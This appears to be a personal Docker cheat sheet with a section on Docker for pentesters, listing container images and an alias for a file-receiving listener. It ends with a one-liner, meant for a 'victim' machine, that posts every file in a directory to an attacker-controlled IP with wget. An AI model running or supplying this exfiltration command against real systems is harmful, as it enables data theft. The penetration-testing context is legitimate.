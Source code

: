# docker

## Common docker commands

Find the IP address of a container:

``` bash
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <container_name_or_id>
```

## Docker for pentesters

### Inspiration

* this [excellent post](https://blog.ropnop.com/docker-for-pentesters/) from ropnop.
* one good example in [this article](https://0x00sec.org/t/tricks-of-the-trade-from-5-years-in-offensive-cyber-security/15794) from 0x00sec.

### alpyntest

See [here](https://github.com/yaap7/miSCripts/tree/master/alpyntest).

### CyberChef Container

[Online example](https://gchq.github.io/CyberChef/)

``` bash
docker pull remnux/cyberchef
```

### Etherpad-lite Container

``` bash
docker pull etherpad/etherpad-lite:lastest
```

### postfiledumphere

Just a memo of [this article](https://0x00sec.org/t/tricks-of-the-trade-from-5-years-in-offensive-cyber-security/15794) from 0x00sec.

``` bash
alias postfiledumphere='docker run --rm -it -p80:3000 -v "${PWD}:/data" rflathers/postfiledump'  
```

Then, your system will listen on port 80, ready to receive files from your victim.
On your victim, you just need wget or curl, and this oneliner:

``` bash
ls | xargs -I{} wget http://10.10.14.3/{} --post-file {}
```
